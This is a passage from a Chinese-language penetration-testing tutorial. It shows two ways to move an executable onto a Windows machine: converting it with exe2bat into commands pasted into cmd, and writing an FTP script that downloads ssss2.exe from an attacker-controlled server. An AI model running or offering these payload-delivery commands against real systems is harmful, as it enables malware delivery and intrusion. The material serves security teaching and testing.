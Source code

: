 ![Alt text](http://drops.javaweb.org/uploads/images/13d0068d8b0f88a8b0cf8ecec82c14101ae40efc.jpg)

**操作步骤：**

kali：

```
cd /usr/share/windows-binaries
wine exe2bat.exe ssss2.exe ssss2.txt

```

执行后会生成ssss2.txt，将里面的内容复制粘贴到cmd命令行下依次执行

执行后会生成1.dll、123.hex、ssss.exe

如图

![Alt text](http://drops.javaweb.org/uploads/images/490f1330a6b3e55c15c8ef5641956571302ec907.jpg)

**注：**  
exe2bat不支持大于64kb的文件 debug默认只支持在32位系统

如图

![Alt text](http://drops.javaweb.org/uploads/images/362c5463ba32f0054df197c4f7259490d88e44f6.jpg)

### 2、ftp

搭建好ftp服务器：

```
ip:192.168.174.151
文件:ssss2.exe

```

按顺序执行如下代码即可通过ftp来下载文件

cmd：

```
echo open 192.168.174.151 21> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo ftp>> ftp.txt
echo GET ssss2.exe >> ftp.txt
ftp -s:ftp.txt

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/630a274fc00ac3f6faa78034d560226e7ed06d7f.jpg)

**注：**  
初次使用ftp下载防火墙会弹框拦截，使用前记得要先添加防火墙规则
